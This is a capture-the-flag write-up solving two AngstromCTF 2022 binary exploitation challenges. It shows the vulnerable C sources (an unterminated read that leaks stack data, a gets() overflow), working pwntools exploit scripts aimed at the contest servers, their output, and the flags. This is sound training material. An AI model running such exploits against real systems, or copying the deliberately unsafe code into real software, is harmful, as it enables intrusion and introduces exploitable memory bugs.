 # AngstromCTF - Pwn

## whatsmyname (50 pts)

> Can you guess my name?
>
> `nc challs.actf.co 31223`
>
> [whatsmyname](pwn/whatsmyname/whatsmyname) [whatsmyname.c](pwn/whatsmyname/whatsmyname.c)

The program takes in 47 randomly generated bytes as its name(`myName[48]`), and asks me to enter my name(`yourName[48]`) and guess its name(`guess[48]`). It accepts the first input by `read()` function.

```cpp

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

static void generate_name(char *str)
{
    FILE *file = fopen("/dev/urandom","r"
    fgets(str, 48, file);
    close(file);
}

int main(){
    char yourName[48];
    char myName[48];
    
    char guess[48];

    setbuf(stdout, NULL);

    generate_name(myName);

    printf("Hi! What's your name? ");

    int n = read(0, yourName, 48);
    if (yourName[n-1] == '\n') yourName[n-1] = '\x00';

    printf("Nice to meet you, %s!\n", yourName);

    puts("Guess my name and you'll get a flag!");

    scanf("%48s[^\n]", guess);

    if (strncmp(myName, guess, 48) == 0){
        // Print FLAG
    }

    puts("Bye!");
    return 0;
}
```

But when I enter a 48-letter answer, it prints something else along with my input.

```text
8M:/mnt/d/GitHub/angstromCTF2022/pwn/whatsmyname$ ./whatsmyname
Hi! What's your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
{w^w
     l-JĖϿ|KImԩ(f!aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Guess my name and you'll get a flag!
```

Debugging the program reveals that `myName` is located right after `yourName`, and completely filling `yourName` removes the null character (`\x00`) that separates the two, revealing the random bytes it set as its name. 

Therefore, we can get the flag by giving the revealed string back to the program when answering the second question.

```python
from time import sleep
from pwn import *
context.log_level = "debug"

buf = b"abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKL"

app = remote("challs.actf.co", 31223)
app.recvuntil(b'name?')
app.sendline(buf + b"\n")
res = app.recvuntil(b"Guess my name and you'll get a flag!\n")
sleep(0.4)
payload = res[67:len(res)-39] 
app.sendline(payload)
print(app.recvall())
```

[This script](pwn/whatsmyname/solution.py) sends the leaked answer, including non-printable bytes, back to the program. As long as `myName` itself does not include null bytes, the script yields the flag.

```text
8M:/mnt/d/GitHub/angstromCTF2022/pwn/whatsmyname$ python3 solution.py
[+] Opening connection to challs.actf.co on port 31223: Done
[DEBUG] Received 0x16 bytes:
    b"Hi! What's your name? "
[DEBUG] Sent 0x32 bytes:
    b'abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKL\n'
    b'\n'
[DEBUG] Received 0x98 bytes:
    00000000  4e 69 63 65  20 74 6f 20  6d 65 65 74  20 79 6f 75  │Nice│ to │meet│ you│
    00000010  2c 20 61 62  63 64 65 66  67 68 69 6a  6b 6c 6d 6e  │, ab│cdef│ghij│klmn│
    00000020  6f 70 71 72  73 74 75 76  77 78 79 7a  31 32 33 34  │opqr│stuv│wxyz│1234│
    00000030  35 36 37 38  39 30 41 42  43 44 45 46  47 48 49 4a  │5678│90AB│CDEF│GHIJ│
    00000040  4b 4c aa 1a  02 72 58 44  a6 90 d6 47  d3 49 ae 71  │KL··│·rXD│···G│·I·q│
    00000050  ae d7 a5 53  ae 23 fa 24  c7 6f fc 8c  7b 3d f1 89  │···S│·#·$│·o··│{=··│
    00000060  d7 1e 27 69  38 52 f8 9a  54 f0 79 03  51 87 56 96  │··'i│8R··│T·y·│Q·V·│
    00000070  b2 21 0a 47  75 65 73 73  20 6d 79 20  6e 61 6d 65  │·!·G│uess│ my │name│
    00000080  20 61 6e 64  20 79 6f 75  27 6c 6c 20  67 65 74 20  │ and│ you│'ll │get │
    00000090  61 20 66 6c  61 67 21 0a                            │a fl│ag!·│
    00000098
[DEBUG] Sent 0x30 bytes:
    00000000  aa 1a 02 72  58 44 a6 90  d6 47 d3 49  ae 71 ae d7  │···r│XD··│·G·I│·q··│
    00000010  a5 53 ae 23  fa 24 c7 6f  fc 8c 7b 3d  f1 89 d7 1e  │·S·#│·$·o│··{=│····│
    00000020  27 69 38 52  f8 9a 54 f0  79 03 51 87  56 96 b2 0a  │'i8R│··T·│y·Q·│V···│
    00000030
[+] Receiving all data: Done (52B)
[DEBUG] Received 0x34 bytes:
    b'actf{i_c0uld_be_l0nely_with_y0u_a21f8611c74b}\n'
    b'\n'
    b'Bye!\n'
[*] Closed connection to challs.actf.co port 31223
b'actf{i_c0uld_be_l0nely_with_y0u_a21f8611c74b}\n\nBye!\n'
```

**Flag: `actf{i_c0uld_be_l0nely_with_y0u_a21f8611c74b}`**

## wah (100 pts)

> Baby friendly!
>
> [wah](pwn/wah/wah) [wah.c](pwn/wah/wah.c)
>
> `nc challs.actf.co 31224`

The program accepts user input for 24-byte string. It also has a function that prints flag.

```cpp
void flag(){
    char flag[128];
    
    FILE *file = fopen("flag.txt","r");
    if (!file) {
        puts("Error: missing flag.txt.");
        exit(1);
    }

    fgets(flag, 128, file);
    puts(flag);
}


int main(){
    setbuf(stdout, NULL);
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    
    char cry[24];

    printf("Cry: ");

    gets(cry);
    return 0;
}
```

The goal here is to overflow the buffer to access the `flag()` function.

```text
8M:/mnt/d/GitHub/angstromCTF2022/pwn/wah$ objdump -D wah | grep flag
0000000000401236 <flag>:
  401261:       75 16                   jne    401279 <flag+0x43>
```

Now that we have the address of `flag()`, we need to know how long the payload should be.

```text
8M:/mnt/d/GitHub/angstromCTF2022/pwn/wah$ ./wah
Cry: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
Cry: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
Cry: aaaaaaaaaabbbbbbbbbbccccccccccddddddddddd
Segmentation fault
```

We now know that the return address should be preceded by 40 bytes of filler. Below is [the script](pwn/wah/solution.py) that injects the payload to the program.

```python
from pwn import *

wah = remote("challs.actf.co", 31224)

payload = b"A" * 40 + p64(0x401236)

wah.recvn(4)
wah.sendline(payload)
print(wah.recvall())
```

The script successfully obtains the flag.

```text
8M:/mnt/d/GitHub/angstromCTF2022/pwn/wah$ python3 solution.py 
[+] Opening connection to challs.actf.co on port 31224: Done
[+] Receiving all data: Done (61B)
[*] Closed connection to challs.actf.co port 31224
b' actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}\n\n'
```

**Flag: `actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}`**

